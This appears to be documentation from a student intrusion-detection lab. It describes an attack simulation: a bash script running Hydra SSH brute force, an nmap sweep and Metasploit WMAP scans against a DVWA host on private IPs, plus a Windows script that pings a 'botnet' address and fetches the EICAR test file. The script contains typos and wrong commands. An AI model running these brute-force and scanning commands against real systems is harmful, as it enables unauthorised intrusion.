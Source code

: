 Attacker Machines
====
We chose to have two machines acting as attackers on our network, one external and a internal compromised Windows host.

Kali Outside Attacker Machine
----
We chose to use Kali Linux as our external attacker machine, Kali was chosen due to its existing robust catalouge of hacking tools.
We chose to use the following to simulate an attack: 

- NMAP (Scanning Ports)
- HYDRA (Brute Force Password)
- WMAP / Metasploit (Scanning DVWA)

I wrote a custom script to automate most of this process.
    
    .. code-block:: bash

        #/bin/bash
        root -i
        echo "======================================"
        cowsay Moooo!
        echo "Proj: IDS"
        echo "Purpose: Test IDS Rules and Logging with a variety of attacks"
        echo "#################################"
        hydra -L name -P a 10.180.110.250 ssh -t 4
        echo "DONE: Hydra on Admin ASDM Download to find privlaged users"
        echo "#############################"
        ssh user1@10.180.110.250 'exit'
        echo "DONE: Sample remote ssh via attempted brute force"
        echo "###########################"
        #cowsay Hackermode
        sudo nmap -v  110.180.110.0/24
        msfconsole 'load'
        echo "DONE: WEB APP EXPLOITS"
        #cowsay MOO!
        echo "==================================="
        eof

This script launches a hydra attack on the specified IP addresses, then runs a nmap scan and then opens the metasploit console

Then once we are in the MSF console we will run the following to scan our vuln filled web application for exploits.

    .. code-block:: bash

        msf6 > load wmap
        msf6 > wmap_sites -l
        msf6 > wmmap_targets -t http://10.180.110.250/dvwa/index.php
        msf6 > wmap_run -t
        msf6 > wmap_run -e
        msf6 > wmap_vulns -l
        
        
Internal Windows Machine
----
As a demo we simulated a internal machine accessing blocked resources, botnet IP addresses and attempting to execute a RAT file which would be blocked by Windows Defender
        
        .. code-block:: bash


            ## Main File ##
            echo "Running Blocked Site Preview"
            cd "C:\Program Files\Google\Chrome\Application\"
            .\chrome.exe internetbadguys.com

            echo "Start Blocked DNS Traffic"
            ping facebook.com
            ping twitter.com
            ping examplemalwaredommain.com

            echo "Ping Allowed"
            ping google.com
            ping mitt.ca
            ping cisco.com

            echo "Botnet Traffic"
            ping 34.102.136.180

            cd C:\Users\Testuser\Desktop
            .\Malware.ps1

            echo "Running Blocked Site Preview"
            cd "C:\Program Files\Google\Chrome\Application\"
            .\chrome.exe internetbadguys.com

            echo "Start Blocked DNS Traffic"
            ping facebook.com
            ping twitter.com
            ping examplemalwaredommain.com

            echo "Ping Allowed"
            ping google.com
            ping mitt.ca
            ping cisco.com

            echo "Botnet Traffic"
            ping 34.102.136.180

            cd C:\Users\Testuser\Desktop
            .\Malware.ps1

            ## Malware.PS1 ##

            cd 'C:\Program Files\Google\Chrome\Application'
            ./chrome.exe https://www.ikarussecurity.com/wp-content/downloads/eicar_com.zip


   
